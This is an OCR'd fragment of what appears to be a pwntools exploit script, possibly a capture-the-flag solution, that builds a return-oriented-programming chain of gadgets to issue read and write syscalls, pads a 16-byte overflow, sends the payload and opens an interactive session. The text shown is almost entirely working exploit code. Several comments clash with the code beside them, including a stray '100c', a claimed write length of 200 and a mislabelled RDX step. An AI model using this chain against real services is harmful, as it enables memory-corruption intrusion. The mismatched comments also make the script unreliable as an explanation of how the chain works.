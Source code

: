 	# MOV RDI, 3
	rop_chain += [inc_rdi] * 3  # Increment RDI to 3
	
	# MOV RDX, 100
	# rop_chain.append(xor_rdx)  # Clear RDX
	rop_chain += [inc_rdx] * 100  # Increment RDX to 100c
	
	# SYSCALL
	rop_chain.append(syscall)
	
	# Write
	# MOV RAX, 1;MOV RDI,1
	rop_chain.append(xor_rdx)  # Clear RDX
	rop_chain.append(inc_rdx)  # Move RDX (0) to RAX
	rop_chain.append(mov_rax_rdi_from_rdx)  # Set RAX to 1 (write syscall)
	
	# MOV RDX, 100
	rop_chain += [inc_rdx] * 99  # Increment RDX to 100
	
	# SYSCALL
	rop_chain.append(syscall)  # Trigger the syscall to write (write(1, rsp, 200))
	
	# Construct the final payload
	payload = b"A" * 16
	payload += b"".join(p64(r) for r in rop_chain)
	
	# Send the payload and interact
	p.sendline(payload)
	p.interactive()

	
	```